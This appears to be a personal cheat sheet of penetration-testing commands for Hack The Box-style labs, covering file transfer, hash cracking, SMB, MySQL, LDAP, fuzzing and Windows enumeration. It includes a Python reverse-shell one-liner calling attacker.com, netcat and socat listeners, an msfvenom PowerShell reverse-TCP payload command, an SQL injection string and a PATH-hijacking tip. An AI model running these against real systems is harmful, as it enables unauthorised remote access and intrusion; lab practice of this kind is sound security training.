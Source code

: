 scp [source] [dest] (dest htb == username@hostname:dirpath)
pwnbox wordlists 
	 -/opt/useful/SecLists/Usernames/Names/names.txt

ftp
	url : ftp://user:password@host:port/path (don't forget the "/" at the end if you want to get a directory)

python
	open shell
		python3 -c "import pty; pty.spawn('/bin/bash')"
	reverse shell
		export RHOST=attacker.com
		export RPORT=12345
		python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
	listener for reverse shell on attack machine
		socat file:`tty`,raw,echo=0 tcp-listen:12345
			OR
		nc -lvnkp 12345
	make shell better
		Ctrl+Z (to put shell in bg)
		stty -raw
		fg 

hashcat
	hashcat --example-hashes |grep -b1 -A3 [hash type] //to find the mode
	hashcat -m [mode, recovered up there] -a 0 [path_to_hash] [path_to_wordlist]

linux
	find . -name [root,user].txt
	sudo -l //check commands that can be run as sudo with your current user
	export PATH=[enter folder to add to path]:$PATH //think about modifying the path to make a common command execute YOUR code :D
	kill -BUS [process] //SIGBUS can generate crashlogs

msfconsole
	searchsploit [name of service etc.]
	msfvenom -p windows/powershell/reverse_tcp LHOST=[My IP] LPORT=[Chosen Port for Reverse Shell] -a x86 -f ps1 -o pwn.ps1
	use exploit/multi/handler

smbclient 
	smbclient \\\\[ip]\\[directory to bind] {-U [user] OR -N (if no user)} -c [command]
	useful command : 'prompt OFF; recurse ON; mget*' (to download everything)

mysql
	mysql -u [user] -D [name of database] -p [password]
	show databases;
	select [database];
	show tables;

Windows
	more < FILE_PATH | findstr ".exe"
	net user [username]
	Get-ADUser -identity [username] -properties * //enumerate group membership
	sudo gem install evil-winrm
		evil-winrm -i [IP of victim machine] -u [user to connect to] -p [password of user]
	icacls [folder or file name] //Check permissions of users

SQL Injection
	admin' OR '1'='1 //TOSTUDY

ffuf
	ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u [url of host to fuzz] -H 'Host: [put FUZZ in places you want to fuzz example : FUZZ.schooled.htb]' -fs [filter packet with length]

ldap 
	nmap -n -sV --script "ldap* and not brute" <IP>smb
	ldap_search
		https://github.com/m8r0wn/ldap_search
		sudo ldap_search -U users.txt -p [password] -d [ldap domain] //with users.txt as list of users

impacket
	https://www.kali.org/tools/impacket-scripts/
